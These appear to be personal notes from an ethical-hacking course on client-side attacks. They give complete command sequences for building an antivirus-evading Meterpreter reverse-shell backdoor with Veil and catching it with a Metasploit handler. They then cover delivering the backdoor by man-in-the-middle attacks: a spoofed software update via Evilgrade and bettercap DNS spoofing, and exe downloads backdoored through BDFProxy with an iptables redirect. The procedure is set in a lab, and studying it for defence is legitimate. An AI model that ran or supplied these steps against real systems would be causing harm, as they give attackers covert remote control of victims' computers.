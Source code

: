 # Gaining access — client side attack
-   used if server-side attacks are not possible
-   requires user interaction
-   social engineering and information gathering is really helpful here

## Generate payload (in this case backdoor) with Veil framework
-   hard to create not traceable by antivirus program
-   install Veil on Kali with file `install-veil` in folder attachments or use these commands:
```bash
apt update
apt install -y veil
/usr/share/veil/config/setup.sh --force --silent
```
```bash
veil # start veil
```
-   it is important to keep veil up to date, so use the update often
-   2 main tools in Veil:
    1)  Evasion
        -   generates undetectable backdoors
    2)  Ordnance
        -   generates payloads, which are used by Evasion
        -   part of the "evil" code (reverse connection, downloads and executes file in bg, ...)
```bash
use 1 # uses Evasion tool
list # see all the available payloads
```
-   Meterpreter payloads designed by Metasploit. It runs into memory and it allows to migrate between system processes. For example to run from explorer process. So it is hard to detect.
    -   rev tcp/http/https => reverse connection (target connects to attacker), hard to detect in firewall, looks like user connects to website.

```bash
use 15 # use the payload go/meterpreter/rev_https.py, now configure the required options:
set LHOST 192.168.72.129
set LPORT 8080
set PROCESSORS 1 # not needed, uses only one processor
set SLEEP 6 # not needed, waits 6s before running the code
generate # generates the backdoor, will generate exe file, source code and handlers in displayed location
```
-   check detectability by antivirus programs by no distribute currently down, check alternatives like [kleenscan](https://kleenscan.com/index), <strong>just keep in mind that if virustotal will be used, it will share the results with antivirus programs.</strong>

### Prepare to listen for incoming connection from created payload (backdoor)
-   as mentioned the payload is generated by Metasploit, so use the metasploit to track it:
```bash
msfconsole
use exploit/multi/handler # use module which enables to listen to incoming connections
show options
set PAYLOAD windows/meterpreter/reverse_https # set the payload that was sellected before when generating it (in our case use 15 = go/meterpreter/rev_https.py)
set LHOST 192.168.72.129
set LPORT 8080
exploit # now if anybody opens the backdoor, it will come to this pc...
```

### Backdoor delivery method 1 — spoofing sw update
-   one way how to deliver previously crafted payload to the victim machine
-   can be done only as MITM
-   when we (attacker) get a request for update (can be only checking for update), we will catch this packet and reply with our backdoor payload
-   used tool <strong>Evilgrade</strong> (can be installed, current location `/opt/evilgrade/`)

-   first create http payload
```bash
veil
use 1
list
use 14
set LHOST 192.168.72.129
set LPORT 8080
generate # name it backdoor
exit # close veil
```
-   in 1st bash:
```bash
cd /opt/evilgrade
./evilgrade
show modules # show all the available modules that can be hijacked (these are programs like safari, VMware, virtual box etc.)
configure dap # choosing one module
show options # see all options that can be set
set agent /var/www/html/evil_files/backdoor.exe # set payload which we want victim to download (in our case it is the backdoor created previously)
set endsite speedbit.com #set website to display after the update finishes
start
```
-   open 2nd cmd for dns spoofing
```bash
bettercap -iface eth0 -caplet Documents/arp_spoof.cap # run bettercap with spoofing from MITM lecture (file arp_spoof.cap is in the folder attachments) => create MITM
set dns.spoof.all true # dns spoof to give any request to our update as described in MITM
set dns.spoof.domains update.speedbit.com # set our update page which was shown in first bash
dns.spoof on
```
-   open 3rd cmd and start listening incoming connection coming from the backdoor
    -   create reverse http, https doesn't work with https (some bug, might work in future)
```bash
msfconsole
use exploit/multi/handler # use module which enables to listen to incoming connections
set PAYLOAD windows/meterpreter/reverse_http
set LHOST 192.168.72.129
set LPORT 8080
exploit # now if anybody opens the backdoor, it will come to this pc...
```

-   To test it on victim windows machine download and install Download accelerator plus, in top bar click on "Help" and "Update now"
-   After finishing the update, we will have full control over the victim windows machine's cmd

### Backdoor delivery method 2 — backdooring exe downloads
-   backdoor any .exe downloads from victim machine
-   again, need to be MITM
-   tool used is <strong>Backdoor factory proxy</strong> (install location `/opt/BDFProxy`)
    -   bdf_proxy will use payload defined inside configuration file, and it will attach them inside the .exe files. So the programs look normal, but the program includes the payload
    -   modify configuration file `bdf_proxy.cfg`
        -   find definition of these variables and change the initial values:
        1)  proxyMode = transparent
        2)  find section with definitions for operating systems:
            -   change HOST = your.ip.address
-   after previous modification:

-   1st cmd, start bdf_proxy:
```bash
cd /opt/BDFProxy/
./bdf_proxy.py
```

-   2nd cmd, start ARP spoofing with predefined arp_spoof.cap
```bash
bettercap -iface eth0 -caplet Documents/arp_spoof.cap # run bettercap with spoofing from MITM 
```

-   3rd cmd, connect bdf_proxy with incoming data from ARP spoofing using firewall rule (redirect all the incoming data to bdf_proxy) and start listening incoming connection coming from the backdoor using the resource file from bsd_proxy (after running bsd_proxy in 1st bash, it is generated and shown inside the bash)
```bash
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080 # set the firewall rule for redirection
# now start the listening:
msfconsole --resource /opt/BDFProxy/bdfproxy_msf_resource.rc # after some session will be opened by backdoor press Enter
sessions -l  # show available sessions
sessions -i 1 # get inside the session no.1
```
- now on victim machine try to download any exe file and run it